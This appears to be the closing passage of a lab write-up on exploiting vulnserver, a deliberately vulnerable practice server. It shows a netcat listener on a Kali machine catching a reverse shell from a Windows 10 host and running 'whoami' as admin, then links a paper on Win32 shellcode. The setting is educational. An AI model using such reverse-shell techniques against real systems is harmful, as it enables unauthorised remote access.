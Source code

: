 ```
root@kali:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.47.128] from (UNKNOWN) [192.168.47.132] 49853
Microsoft Windows [Version 10.0.17134.165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\admin\Desktop\vulnserver>whoami
whoami
desktop-ofau55f\admin

C:\Users\admin\Desktop\vulnserver>
```

Perfect! 


### Resources other than Microsoft

Skape is the man: http://www.hick.org/code/skape/papers/win32-shellcode.pdf